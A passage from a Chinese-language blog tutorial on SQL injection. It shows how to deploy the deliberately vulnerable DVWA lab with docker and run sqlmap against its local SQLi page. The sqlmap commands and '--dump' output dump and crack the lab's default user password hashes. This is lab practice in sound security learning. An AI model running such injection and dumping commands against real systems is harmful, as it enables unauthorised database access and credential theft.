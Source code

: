 不过，精力有限，而且目前看来也不需要做到这一步。暂时挖个坑吧。不填

## SQLMAP 

简单的了解了几种注入原理之后，还是要看看 SQL 注入神器的——`SQLMAP`

也算是尝试了好久才真正了解它的强大之处。此处强烈推荐 DVWA，`Damn Vulnerable Web Application`，一个用来合法攻击的工具。

部署方式也是开箱可用，只要有 docker，直接 `docker run --rm -it -p 80:80 vulnerables/web-dvwa` 即可完成部署。

对于将 DVWA 安全级别设置为 low 时，仅仅只需要执行下列命令就可以获取到 DB 里几乎完整的信息。

```sh
$ sqlmap -u https://127.0.0.1/vulnerabilities/sqli/\?id\=1\&Submit\=Submit\# --cookie="PHPSESSID=jhton35qahj78l3unjea9k2lf7;security=low" -v 3 --banner
```

当然，换一下相关获取的内容，例如把 `--banner` 换成 `--dump` ，我们借此来简单看看 SQL 注入漏洞的可怕之处

```sh
[10:41:39] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[10:41:40] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[10:41:40] [INFO] starting 8 processes
[10:41:42] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[10:41:44] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[10:41:47] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
[10:41:49] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
[10:41:53] [DEBUG] post-processing table dump
Database: dvwa
Table: users
[5 entries]
+---------+-----------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | avatar                      | user    | password                                    | last_name | first_name | last_login          | failed_login |
+---------+-----------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 1       | /hackable/users/admin.jpg   | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2018-12-15 00:42:31 | 0            |
| 2       | /hackable/users/gordonb.jpg | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2018-12-15 00:42:31 | 0            |
| 3       | /hackable/users/1337.jpg    | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2018-12-15 00:42:31 | 0            |
| 4       | /hackable/users/pablo.jpg   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2018-12-15 00:42:31 | 0            |
| 5       | /hackable/users/smithy.jpg  | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2018-12-15 00:42:31 | 0            |
+---------+-----------------------------+---------+---------------------------------------------+-----------+------------+---------------------+--------------+
```

这里就可以看到 `dvwa.users` 表的全部内容，甚至连简单密码都帮你完成了爆破。

更多内容可以自行尝试，说真的，这个工具相当强大。如果仅仅说我针对某型数据库(例如 MySQL)完成诸如基于报错的注入，在不考虑鲁棒性的情况下，完全可以做到。但是支持超10余种数据库，且自动完成注入的全过程...
